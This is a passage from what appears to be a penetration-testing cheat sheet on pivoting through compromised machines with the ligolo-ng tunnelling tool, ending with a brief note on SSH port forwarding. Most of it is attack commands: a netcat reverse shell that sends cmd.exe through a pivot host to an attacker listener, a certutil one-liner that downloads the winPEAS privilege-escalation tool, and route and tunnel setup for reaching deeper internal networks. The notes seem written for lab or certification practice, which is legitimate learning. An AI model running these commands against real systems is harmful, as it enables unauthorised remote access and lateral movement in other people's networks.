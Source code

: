 ```bash
# Any connection that comes into pivot machine on 1234 (B) is gonna be redirected to our attacking machine (A) on port 4444
# Start listener on localhost (attacking machine) 
rlwrap nc -lvnp 4444
# Now we need RCE or any flaw or get access to spawn a revshell using the internal IP of the pivot machine B (check interface with ipconfig /all)
C:\Users\Internal-Network-C> nc.exe 10.10.120.131 1234 -e cmd

# Transfer files -> add a dedicated listener for fileserver and specify internal IP of pivot machine (B) when downloading files
[Agent: ...] >> listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
[Agent: ...] >> listener_list
C:\Users\Internal-Network-C> certutil -urlcache -split -f http://10.10.120.131:1235/winpeas64.exe winpeas.exe


# DOUBLE-TRIPLE PIVOT
# This may overcomplicate the steps but in case we want to access an internal network that does not appear as network interface
# Once we got ligolo interface with a tunnel, create another interface with another tunnel
sudo ip tuntap add user kali mode tun ligolo2
sudo ip link set ligolo2 up
sudo ip route add 172.16.2.0/24 dev ligolo2
# ONLY in case X.X.X.0/24 fails and it's just one machine we want to access -> route that host exclusively
sudo ip route add 172.16.2.6 dev ligolo2 
# Catch a session 
[Agent : AGENT] » session
# Note that sudo ip route add has to be the one we get from ifconfig on the session agent
[Agent : AGENT] » start
# If it fails, indicate the new interface to route
[Agent : AGENT] » start --tun ligolo2
# ALTERNATIVE: try autoroute and select 172.16.2.0/24 option or the only one available
[Agent : AGENT] » autoroute


# Delete the tun interface when you are done:
sudo ip route del 10.10.120.0/24 dev tap0
sudo ip tuntap del dev ligolo mode tun
```
{% endcode %}

## Port forwarding

[https://erev0s.com/blog/ssh-local-remote-and-dynamic-port-forwarding-explain-it-i-am-five/#dynamic-port-forwarding](https://erev0s.com/blog/ssh-local-remote-and-dynamic-port-forwarding-explain-it-i-am-five/#dynamic-port-forwarding)

When you want to expose a service in a server to a port of an interface reachable to you, use **Local port Forwarding**.\
When you want to expose a service running in your machine to a port of an interface reachable to a remote server, use **Remote port Forwarding**.
